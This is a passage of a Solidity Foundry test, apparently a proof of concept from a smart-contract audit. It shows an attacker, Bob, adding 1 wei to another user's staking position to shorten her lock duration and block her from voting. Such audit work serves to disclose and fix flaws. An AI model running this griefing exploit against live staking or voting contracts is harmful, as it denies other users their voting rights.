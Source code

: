 ```solidity
        assertEq(_remainingLockTime(position), 2 weeks);

        console.log("%s%s", "lockDuration Before Malicious addToPosition: ", position.lockDuration);

        skip(1 weeks);
        // 1 week later the Admin starts a voting period
        vm.prank(DEV);
        _voter.startNewVotingPeriod();
        assertEq(1, _voter.getCurrentVotingPeriod());

        // Alice is eligible to Vote because her position's lockDuration is = to the duration of the period
        // 2 weeks == 2 weeks
        assertEq(position.lockDuration, _voter.getPeriodDuration());

        // Bob maliciously adds 1 wei to Alice's position which will update her position and decreases her lockDuration
        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 wei);
        _pool.addToPosition(1, 1 wei);
        vm.stopPrank();

        // Alice will lose her eligibility due to the lockDuration decrease that occurred after Bob maliciously added 1 wei to her position.
        // Now Alice's lockDuration is 1 week, which is less than the PeriodDuration which 2 weeks.
        position = _pool.getStakingPosition(1);
        assertLt(position.lockDuration, _voter.getPeriodDuration());
        assertEq(position.lockDuration, 1 weeks);
    
        console.log("%s%s", "lockDuration After Malicious addToPosition:  ", position.lockDuration);

        // Alice calls the vote function but her tx reverts due to the InsufficientLockTime error
        vm.prank(ALICE);
        vm.expectRevert(
            abi.encodeWithSelector(
                IVoter.IVoter__InsufficientLockTime.selector
            )
        );
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
    }

    /*
    ||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
    ||||||||||||||||||||||||| INTERNAL FUNCTIONS |||||||||||||||||||||||||||||
    ||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
    */

    function _createPosition(address user, uint256 amount, uint256 duration) internal {
        _stakingToken.mint(user, 100 ether);

        vm.startPrank(user);
        _stakingToken.approve(address(_pool), amount);
        _pool.createPosition(amount, duration);
        vm.stopPrank();
    }

    function _getDeltaAmounts() internal pure returns (uint256[] memory deltaAmounts) {
        deltaAmounts = new uint256[](1);
        deltaAmounts[0] = 1e18;
    }

```